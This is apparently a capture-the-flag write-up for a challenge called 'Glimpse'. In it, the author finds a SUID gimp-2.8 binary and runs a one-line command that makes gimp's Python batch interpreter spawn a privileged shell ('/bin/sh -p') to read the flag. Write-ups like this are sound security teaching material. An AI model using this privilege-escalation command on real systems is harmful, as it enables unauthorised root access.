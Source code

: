 # Glimpse (125pts) 161 solves #

![TASK](https://imgur.com/F78hCi2.png)

We are given some ssh credentials here too , judging from the name of the task i supposed that it might be something unusual with gimp binary so after digging i realised that gimp-2.8 was a suid binary ! BINGO :D

![TASK](https://imgur.com/UgNyqqK.png)

so running the following command we can get a shell from gimp and cat our beloved flag (gtfobins FTW ) :D

```sh
gimp-2.8 -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![TASK](https://imgur.com/bUO0NSt.png)

**Flag:** flag{just_need_a_glimpse_of_the_flag_please}

If you have any questions you can contact me on twitter @BelkahlaAhmed1 or contact our team twitter @FwordTeam ! Make sure to visit my personal blog for more useful content :D
